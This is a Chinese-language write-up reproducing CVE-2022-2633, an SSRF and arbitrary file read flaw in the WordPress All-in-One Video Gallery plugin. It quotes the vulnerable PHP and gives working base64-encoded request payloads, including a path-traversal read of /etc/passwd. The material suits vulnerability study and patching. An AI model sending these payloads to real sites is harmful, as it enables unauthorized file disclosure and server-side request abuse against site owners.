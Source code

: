 # 

# WordPress All-in-One Video Gallery video.php 任意文件读取漏洞 CVE-2022-2633

## 漏洞描述

WordPress All-in-One Video 插件 Gallery video.php文件中存在SSRF以及任意文件读取漏洞，攻击者通过发送特定的请求包读取任意文件

## 漏洞影响

```
WordPress All-in-One Video Gallery <= 2.6.0
```

## 插件名称

```
All-in-One Video Gallery
```

https://downloads.wordpress.org/plugin/all-in-one-video-gallery.2.6.0.zip

## 漏洞复现

对比漏洞修复的文件找到出现漏洞的文件 wp-content/plugins/all-in-one-video-gallery/public/video.php

![image-20221017170543356](./images/202210171705476.png)

这里接收 dl 参数，dl 参数不为 数字类型时，参数将 base64 解码传入

```
		if ( is_numeric( $_GET['dl'] ) ) {
			$file = get_post_meta( (int) $_GET['dl'], 'mp4', true );
		} else {
			$file = base64_decode( $_GET['dl'] );
		}

		if ( empty( $file ) ) {
			die( esc_html__( 'Download file URL is empty.', 'all-in-one-video-gallery' ) );
           	exit;
        }
```

![image-20221017170604454](./images/202210171706536.png)

当传入的参数中不存在 http:// 或 https:// 时，参数 $formatted_path 的值改变

![image-20221017170622056](./images/202210171706133.png)

当 $formatted_path 为 url 时存在 SSRF漏洞，传入 base64编码 的目标URL就可以得到回显

```
/index.php/video/?dl=aHR0cHM6Ly93d3cuYmFpZHUuY29t
```

![image-20221017170640788](./images/202210171706868.png)

看向代码最后的片段，则存在任意文件读取漏洞

![image-20221017170655893](./images/202210171706975.png)

```
/index.php/video/?dl=Li4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==
```

![image-20221017170708523](./images/202210171707604.png)
